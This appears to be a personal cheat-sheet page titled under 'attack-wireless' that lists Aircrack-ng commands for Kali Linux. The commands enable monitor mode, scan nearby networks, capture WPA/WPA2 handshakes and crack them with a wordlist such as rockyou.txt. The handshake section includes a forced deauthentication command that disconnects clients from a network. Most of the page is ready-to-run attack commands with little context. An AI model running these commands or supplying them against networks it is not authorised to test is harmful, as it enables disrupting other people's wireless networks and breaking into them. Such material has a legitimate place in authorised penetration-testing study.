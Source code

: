 ```yaml
---
{"dg-publish":true,"permalink":"/attack-wireless/wireless/","noteIcon":"","created":"2025-04-15T14:11:19.623-04:00"}
---
```


















//*****Updating as of 02/06/2024 *****//

# **1. Aircrack-ng (Wi-Fi Cracking & Sniffing)**

## **1.1. Installation on Kali Linux**

```sh
sudo apt update && sudo apt install aircrack-ng -y
```

## **1.2. Enable Monitor Mode**

```sh
sudo airmon-ng start wlan0
```

## **1.3. Scan for Available Networks**

```sh
sudo airodump-ng wlan0mon
```

## **1.4. Capture Handshake Packets (WPA/WPA2 Cracking)**

```sh
sudo airodump-ng -c <channel> --bssid <BSSID> -w capture wlan0mon
sudo aireplay-ng --deauth 100 -a <BSSID> wlan0mon
ls -l | grep .cap
aircrack-ng -a2 -b <BSSID> -w wordlist.txt capture-01.cap
```

## **1.5. Cracking WPA/WPA2**

```sh
sudo aircrack-ng -b <BSSID> -w /usr/share/wordlists/rockyou.txt capture-01.cap
```
